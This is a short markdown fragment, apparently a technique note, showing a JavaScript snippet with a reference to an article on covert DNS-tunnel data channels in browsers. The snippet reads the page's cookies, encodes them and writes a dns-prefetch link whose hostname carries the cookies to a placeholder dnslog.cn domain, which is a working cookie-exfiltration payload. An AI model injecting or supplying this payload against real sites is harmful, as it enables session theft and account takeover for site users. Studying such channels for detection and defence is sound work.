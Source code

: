 ```js
        <script>
            cookie = document.cookie;
            cookie=cookie.replace(/=/g,'c1')
            cookie=cookie.replace('/;\s/g','c2')
            // console.log(cookie)
            document.writeln("<link rel=\'dns-prefetch\' href=\'//"+cookie+".xxxxxx.dnslog.cn\'>");
        </script>
```

## Ref
- [浏览器中隐蔽数据传输通道-DNS隧道](https://mp.weixin.qq.com/s/u5HV7umrZABcgVpZ5pn6WQ)

